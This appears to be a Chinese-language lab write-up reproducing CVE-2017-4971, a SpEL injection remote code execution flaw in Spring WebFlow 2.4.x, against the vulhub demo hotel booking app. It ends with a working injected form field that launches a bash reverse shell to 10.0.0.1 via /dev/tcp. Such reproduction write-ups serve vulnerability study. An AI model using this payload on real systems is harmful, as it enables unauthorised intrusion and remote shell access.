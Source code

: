 

# Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->改包--->SpEL命令执行

### 0x01漏洞介绍

​			Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

​			影响版本

  		Spring Web Flow 2.4.0 – 2.4.4

### 0x02漏洞复现

​	访问`http://your-ip:8080`，将看到一个酒店预订的页面，这是spring-webflow官方给的简单示例：

![Spring_WebFlow_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_WebFlow_RCE_1.jpg)

​	访问`http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：

![Spring_WebFlow_RCE_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_WebFlow_RCE_2.jpg)

​	再点击确认“Confirm”：

![Spring_WebFlow_RCE_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_WebFlow_RCE_3.jpg)

此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub

"bash -i >& /dev/tcp/10.0.0.1/21 0>&1" //此部分需要url编码
```

![Spring_WebFlow_RCE_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_WebFlow_RCE_4.jpg)

